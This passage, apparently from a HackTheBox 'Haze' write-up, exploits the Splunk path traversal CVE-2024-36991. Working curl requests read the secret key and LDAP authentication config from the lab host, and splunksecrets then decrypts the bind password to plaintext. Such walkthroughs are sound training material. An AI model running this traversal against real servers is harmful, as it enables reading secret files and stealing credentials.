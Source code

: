 C:\Program Files\Splunk\etc\auth\splunk.secret
C:\Program Files\Splunk\etc\system\local\authentication.conf
reference: https://docs.splunk.com/Documentation/Splunk/latest/Admin/Authenticationconf

```bash
➜  CVE-2024-36991 git:(main) ✗ curl  "http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/auth/splunk.secret"
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD                                                                                                                                                                        
➜  CVE-2024-36991 git:(main) ✗ curl  "http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/system/local/authentication.conf"
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```

from binDN we got the user Paul Taylor and the password which is encrypted will will decrypt the password with the secret using a tool called splunksecrets

```bash
➜  Haze python3 -m pip install splunksecrets
➜  Haze curl  "http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/auth/splunk.secret" > splunk.secret
➜  Haze splunksecrets splunk-decrypt -S splunk.secret
Ciphertext: $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
Ld@p_Auth_Sp1unk@2k24

```
